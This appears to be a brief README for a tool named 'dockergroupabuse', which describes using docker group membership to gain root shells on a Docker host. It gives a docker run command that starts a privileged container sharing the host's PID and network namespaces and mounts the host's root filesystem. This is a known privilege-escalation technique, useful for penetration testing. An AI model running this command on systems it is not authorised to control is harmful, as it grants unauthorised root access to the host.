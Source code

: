 # dockergroupabuse

Abusing the `docker` group to get root shells on minimal images that might be stored on a Docker host.

## Usage

Build the Docker image on the host using the Dockerfiles provided.

```
docker build -t [image-name] .
docker run --rm --privileged --pid=host --net=host -itv /:/host [image-name]
```
